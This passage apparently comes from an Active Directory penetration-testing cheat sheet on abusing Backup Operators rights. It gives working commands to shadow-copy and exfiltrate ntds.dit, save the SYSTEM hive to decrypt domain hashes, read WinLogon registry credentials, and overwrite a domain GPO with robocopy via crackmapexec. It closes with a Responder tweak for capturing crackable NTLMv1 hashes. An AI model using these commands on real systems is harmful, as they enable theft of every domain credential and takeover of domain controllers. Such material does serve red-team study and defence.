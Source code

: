 To backup with **Diskshadow + Robocopy**:

* Create a `script.txt` file to backup with Diskshadow and upload it on the target

```plain
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

* Backup with `diskshadow /s script.txt` in the `crackmapexec` command parameter
* Retrieve the backup with **robocopy** and send the NTDS file in the current folder : `robocopy /b E:\Windows\ntds . ntds.dit` (still with CME)
* Then retrieve the SYSTEM registry hive to decrypt and profit `reg save hklm\system c:\temp\system` (always)

#### Registry read rights

The **Backup Operators** can read all the machines registry

```bash
reg.py -dc-ip 192.168.24.10 'domain.local'/'backup$':'Password123'@server.domain.local query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'
```

#### GPOs read/write rights

Normally the **Backup Operators** can read and rights all the domain and DC GPOs with **robocopy** in **backup** mode

* Found the interesting GPO with `Get-NetGPO` . For example **Default Domain Policy** in the Domain Controller policy
* Get the file at the path `\\dc.domain.local\SYSVOL\domain.local\Policies\{GPO_ID}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf` and add whatever you want in it
* Write the file with **robocopy**:

```bash
crackmapexec smb <target> -u user1 -p password -X 'robocopy "C:\tmp" "\\dc.domain.local\SYSVOL\domain.local\Policies\{GPO_ID}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /ZB'
```

## NTLM

### Capture, Coerce and Leak NTLM

Different ways to obtain and catch Net-NTLM authentications and retrieve a NTLM response.

#### Responder / Inveigh

Change the authentication challenge to `1122334455667788` in the Responder conf file in order to obtain an easily crackable hash if **NTLMv1** is used.
